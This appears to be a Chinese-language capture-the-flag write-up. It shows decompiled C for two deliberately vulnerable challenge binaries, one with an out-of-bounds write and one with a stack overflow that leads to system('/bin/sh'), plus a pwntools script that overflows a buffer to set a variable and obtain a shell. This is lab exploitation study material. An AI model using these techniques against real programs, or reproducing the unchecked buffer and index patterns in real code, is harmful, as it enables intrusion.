 ```c
void vuln()
{
  int rep_index; // [esp+8h] [ebp-90h]
  int i; // [esp+Ch] [ebp-8Ch]
  char arr_ch[128]; // [esp+10h] [ebp-88h]
                                       // 1. ebp - 88, ret位置为 88+4

  memset(arr_ch, 0, 0x80u);
  puts("id:");
  scanf("%d", &i);                     // 2. 输入i会作为数字, 不用转成二进制
  printf("you have input id:%d\n", i);
  printf("id's value(hex) is:%x\n", arr_ch[i]); // %x为16进制, 输入返回地址 覆盖ebp
  puts("replace:");
  scanf("%d", &rep_index);             // 3. 替换为shell_func的地址
  printf("the value has replace to:%x\n", rep_index);
  arr_ch[i] = rep_index;
}
```

### pwn2 长度溢出覆盖 ebp 输入数字转字符串覆盖返回地址

注意输入类型

```python
from pwn import *

file = './pwn2'

sh = process(file)
payload = 'a' * (0x80 - 0x10)
sh.sendline(flat(payload, pack(1500)))
sh.interactive()
```

```c
void out()
{
  char a[100]; // [esp+18h] [ebp-80h]
  int weak; // [esp+88h] [ebp-10h]
  int *p; // [esp+8Ch] [ebp-Ch]
  // a是 -80h, weak 是-10h, 覆盖需要 0x80-0x10
  // 再输入weak值 -- 1500,注意是%s， 数字转字符串

  weak = 0;
  p = &weak;
  printf("weak point : %p\n", &weak);
  __isoc99_scanf("%s", a);
  printf(a);
  if ( weak == 1500 )
  {
    puts("Congratulation!");
    system("/bin/sh");
  }
  printf("%i", weak);
}
```

